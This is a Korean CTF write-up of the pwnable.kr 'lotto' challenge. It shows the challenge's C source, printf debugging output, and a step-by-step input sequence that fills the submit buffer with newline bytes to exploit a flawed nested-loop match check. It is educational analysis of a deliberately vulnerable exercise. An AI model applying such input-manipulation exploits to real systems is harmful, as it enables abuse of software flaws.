

## 2017.7.26.
## Sungkyu Cho - sungkyu1.cho@gmail.com

PWNABLE KR - TODDLER - lotto - 2pt

이건 뒷걸음 치다가 소잡은 격으로 답을 찾은 문제. 거창하게 뭔가 분석을 한 이후에 답을 찾은 것처럼 거짓말을 하기 보다는, 답이 나오고 원인이 뭔지 찾았던 실제 flow대로 설명하고자 한다.

# 0.우선은 소스코드 살펴보기
  소스코드를 간단하게 설명하면 ```/dev/urandom```에서 얻어온 6자리 난수와 입력받은 6자리 값이 같으면 당첨.

  난수 생성기에 대해서는 약간 관심이 있었던터라, ```urandom```과 ```random```의 차이는 간략하게 알고 있었고 또 ```urandom```이 취약하다고는 하나 여기서 그 취약점을 공격하는 방식은 아니라고 당연히 생각.

  * 요약하자면, random 은 blocking 방식이라 충분한 random pool 이 만들어져야 하지만, urandom 은 그렇지 않아 random pool의 엔트로피가 충분히 높지 않을 수 있다는 내용

  * [random 관련 위키 페이지 링크](https://ko.wikipedia.org/wiki//dev/random)  

  결국 랜덤값을 추측하지는 않을 것 같고, ```fflush()```가 있는 걸로 봐서는 입력값을 막 밀어넣을 수 있어보이지도 않지만.

  일단은 소스를 카피하여 로컬에서 printf 디버깅 시작 - _ -;;

# 1.Check it up
  일단은 아래 코드에서와 같이 ```read()```는 ```stdin``` (fd=0) 이고 ```fflush()```는 ```stdout``` (fd=1)이기 때문에 입력값이 막 들어가진 않을까 해서 ```aaaaaaa```를 입력해보니 이상동작 발생

  ```c
  void play(){

        int i;
        printf("Submit your 6 lotto bytes : ");
        fflush(stdout);

        int r;
        r = read(0, submit, 6);

        printf("Lotto Start!\n");
        //sleep(1);

        // generate lotto numbers
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd==-1){
                printf("error. tell admin\n");
                exit(-1);
        }
        unsigned char lotto[6];
        if(read(fd, lotto, 6) != 6){
                printf("error2. tell admin\n");
                exit(-1);
        }
        for(i=0; i<6; i++){
                lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
        }
        close(fd);
  ```
  * 메뉴를 선택하지 않고 6자리 숫자 입력 메뉴가 계속 반복해서 뜨는 버그가 있어서 이 부분에 대한 ```printf``` 디버깅 수행 결과

  ```
  Submit your 6 lotto bytes : aaaaaaa
r: 6
Lotto Start!
submit i : 61
submit i : 61
submit i : 61
submit i : 61
submit i : 61
submit i : 61
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
Submit your 6 lotto bytes : 1
r: 2
Lotto Start!
submit i : 31
submit i : a
submit i : 61
submit i : 61
submit i : 61
submit i : 61
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
Submit your 6 lotto bytes :
  ```

  * 여기서 ```31```은 1이고, ```a```는 엔터를 의미함
  * 또한 ```61```은 a를 의미함
  * 즉 이전에 입력했던 값들이 버퍼에 계속 남아있고, 추가로 입력하는 값들이 들어가고 있다는 것을 알 수 있음

  * 재미있는 것은 그 다음부터의 현상인데..

```
Submit your 6 lotto bytes : 1
r: 2
Lotto Start!
submit i : 31
submit i : a
submit i : 31
submit i : 31
submit i : a
submit i : 61
lotto : a, submit : a
match : 1
lotto : a, submit : a
match : 2
bad luck...
- Select Menu -
```

* 입력하는 값이 특정 시점에 ```match``` 됨을 알 수 있는데, 그게 **버퍼에 들어가 있는 ```a``` 의 개수와 일치한다는 점이었음**
* 그렇다면, ```a```를 6개 넣을 수 있는 방법은? 아래와 같다.

```
Submit your 6 lotto bytes : 11111
r: 6
Lotto Start!
submit i : 31
submit i : 31
submit i : 31
submit i : 31
submit i : 31
submit i : a
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
Submit your 6 lotto bytes : 1111
r: 5
Lotto Start!
submit i : 31
submit i : 31
submit i : 31
submit i : 31
submit i : a
submit i : a
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
Submit your 6 lotto bytes : 111
r: 4
Lotto Start!
submit i : 31
submit i : 31
submit i : 31
submit i : a
submit i : a
submit i : a
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
Submit your 6 lotto bytes : 11
r: 3
Lotto Start!
submit i : 31
submit i : 31
submit i : a
submit i : a
submit i : a
submit i : a
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
Submit your 6 lotto bytes : 1
r: 2
Lotto Start!
submit i : 31
submit i : a
submit i : a
submit i : a
submit i : a
submit i : a
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
Submit your 6 lotto bytes :
r: 1
Lotto Start!
submit i : a
submit i : a
submit i : a
submit i : a
submit i : a
submit i : a
bad luck...
- Select Menu -
1. Play Lotto
2. Help
3. Exit
Submit your 6 lotto bytes :
```

* **즉, 11111엔터, 1111엔터, 111엔터, 11엔터, 1엔터, 엔터** 를 하게 되면 순차적으로 버퍼에 ```a```가 가득차게 된다.
* 그리고 엔터를 몇 번 더 치면(난수 생성을 해서 a가 생기도록) **pwn**




# 2. 사후 분석
  * 대충 짐작이 가겠지만, ```urandom```에서 생성된 값 중에 ```a``` 하나만 있으면 되는 걸로 봐서는 logical error 이며 실제로 관련 소스코드는 아래와 같음

  ```c
  // calculate lotto score
int match = 0, j = 0;
for(i=0; i<6; i++){
        for(j=0; j<6; j++){
                if(lotto[i] == submit[j]){
                        match++;
                }
        }
}
  ```
 * 2차 loop 안에 변수를 잘 보면 i와 j를 비교하고 있음. 즉, ```lotto```(랜덤값) 안에 있는 특정 값이 ```submit```(입력받은 값)에 동일하게 차 있으면 됨
 * 즉 lotto[x] 가 ```a```라면 ```submit```은 ```aaaaaa```이면 통과되는 로직이다
 * 따라서 버퍼에 ```x0a```는 빠질 수가 없으므로 이걸 ```submit```에 가득채우면 됨

 # 3. EXPLOIT
  * 임의의 캐릭터 7자 + 엔터 (버퍼 망쳐놓기)
  * 임의의 캐릭터 5자 + 엔터 (```x0a```를 6번째 위치)
  * 임의의 캐릭터 4자 + 엔터 (```x0a```를 5번째 위치)
  ...
  * 임의의 캐릭터 1자 + 엔터 (```x0a```를 2번째 위치)
  * 엔터 (```x0a```를 1번째 위치)
  * 엔터 엔터 엔터 (```lotto``` 버퍼 안에 ```x0a```가 들어갈 때까지)
